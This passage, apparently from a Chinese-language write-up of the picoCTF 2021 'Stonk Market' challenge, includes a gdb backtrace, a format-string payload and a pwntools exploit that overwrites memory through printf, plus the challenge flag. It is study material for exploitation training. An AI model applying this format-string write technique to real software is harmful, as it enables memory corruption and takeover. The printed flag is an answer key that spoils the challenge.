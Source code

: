     ```
    :::
可以看到`0x7ffff7e40bc4 mov BYTE PTR [rax], bl`準備把0xf0的值放到rax指向的位置，但是如果是第一種payload，rax的value是0，而第二種payload所存放的value才是0x602018，所以這應該就是@ccccctw所提到的問題，一開始把`0x602018`寫入`0x00007fffffffd7d0`之前都還是零，所以第二種payload因為某種關係，他可以先把`0x602018`寫入`0x00007fffffffd7d0`，==再==把`0x602018`指向的`0x4006c6`最後一個byte改掉，而不是像第一種payload一樣，是同時執行所有的動作，導致系統還沒有把`0x602018`寫入`0x00007fffffffd7d0`，想當然`0x00007fffffffd7d0`的value也是零
```
...
0x00007fffffffd790│+0x0030: 0x00007fffffffd7d0  →  0x0000000000000000    ← $rbp
...
0x00007fffffffd7d0│+0x0070: 0x0000000000000000
```

---
:::spoiler 完整的trace stack
```
gef➤  bt 10
#0  0x00007ffff7e40bc4 in printf_positional (s=s@entry=0x7fffffffafc0, format=format@entry=0x603730 "%6299672c%12$n%216c%20$hhn%10504067c%10$n", readonly_format=readonly_format@entry=0x0, ap=ap@entry=0x7fffffffd680, ap_savep=ap_savep@entry=0x7fffffffab48, done=<optimized out>, nspecs_done=<optimized out>, lead_str_end=<optimized out>, work_buffer=<optimized out>, save_errno=<optimized out>, grouping=<optimized out>, thousands_sep=<optimized out>, mode_flags=<optimized out>) at vfprintf-internal.c:2072
#1  0x00007ffff7e41dcd in __vfprintf_internal (s=s@entry=0x7fffffffafc0, format=0x603730 "%6299672c%12$n%216c%20$hhn%10504067c%10$n", ap=0x7fffffffd680, mode_flags=<optimized out>) at vfprintf-internal.c:1733
#2  0x00007ffff7e44ea2 in buffered_vfprintf (s=s@entry=0x7ffff7fb86a0 <_IO_2_1_stdout_>, format=format@entry=0x603730 "%6299672c%12$n%216c%20$hhn%10504067c%10$n", args=args@entry=0x7fffffffd680, mode_flags=mode_flags@entry=0x0) at vfprintf-internal.c:2377
#3  0x00007ffff7e41d24 in __vfprintf_internal (s=0x7ffff7fb86a0 <_IO_2_1_stdout_>, format=0x603730 "%6299672c%12$n%216c%20$hhn%10504067c%10$n", ap=ap@entry=0x7fffffffd680, mode_flags=mode_flags@entry=0x0) at vfprintf-internal.c:1346
#4  0x00007ffff7e2cd3f in __printf (format=<optimized out>) at printf.c:33
#5  0x0000000000400ace in buy_stonks ()
#6  0x0000000000400c66 in main ()
```
:::
## Exploit - FMT
```python=
from pwn import *

if args.LOCAL:
    r = process('./vuln')
else:
    r = remote('mercury.picoctf.net', 5654)

payload = '%c'*10 + '%6299662c' + '%n' + '%216c' + '%20$hhn' + '%10504067c' + '%10$n'

r.sendline(b'1')
raw_input()
r.sendlineafter(b"token?", payload.encode())
r.interactive()
```

Flag: `picoCTF{explo1t_m1t1gashuns_641dcdf1}`
## Reference
[^pico_pwn_stonk_market_wp]:[ picoCTF 2021 Stonk Market ](https://youtu.be/gLFJFXpY44w)